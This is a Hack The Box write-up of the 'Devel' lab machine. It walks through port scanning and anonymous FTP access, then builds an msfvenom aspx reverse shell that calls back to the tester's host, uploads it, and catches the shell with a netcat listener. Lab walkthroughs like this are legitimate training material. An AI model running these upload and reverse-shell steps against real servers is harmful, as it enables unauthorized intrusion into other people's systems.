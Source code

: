 <H1 style="text-align: center;">Hack The Box </H1>
<H2 style="text-align: center;">Devel write up </H2>
<H2 style="text-align: center;">By Michael ThugBounty Keck </H2>
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Devel.png"></p>

<H1 style="test-align: left;"> Recon: <H1>
Started the test out by running Rustscan to get the open ports. 
Command: rustscan -a 10.10.10.5
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/devel.jpg"></p>

|Status|IP|Port|
| -----|--|----------- |
| Open | 10.10.10.4 | 21 |
| Open | 10.10.10.4 | 80 |

PORT 21: 
Checked to see if FTP would allow for anonymous login
Command: ftp 10.10.10.5
Found that anonymous login was allowed 
I used the following creds anonymous:anonymous
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Devel%20(6).jpg"></p>

PORT 80:
In FireFox I navigated to the page using the IP
I found the standard IIS7 page. 
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Devel%20(7).jpg"></p>

USER SHELL:
Started by testing FTP and adding a test text file.
Command echo 'testing' > test.txt 
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Devel%20(5).jpg"></p>

while connected to the host via FTP I uploaded the file. 
Command: put test.txt. -> upload successful 
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Devel%20(8).jpg"></p>
I checked the web browser by going to 10.10.10.5/test.txt and found the file was showing in the browser. 

Once I knew that it was working I crafted a reverse shell using MSFvenom
Command: msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.2 LPORT=4444 -f aspx > reverse.aspx
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Devel%20(9).jpg"></p>

Again used the put command 
Command put reverse.aspx
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Devel%20(1).jpg"></p>

I started a netcat listener in a new console tab making sure I use the same port as my payload. 
Command nc -nlvp 4444
Went back to FireFox and changed /test.txt to /reverse.aspx and I was able to get a shell back. 
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Devel%20(2).jpg"></p>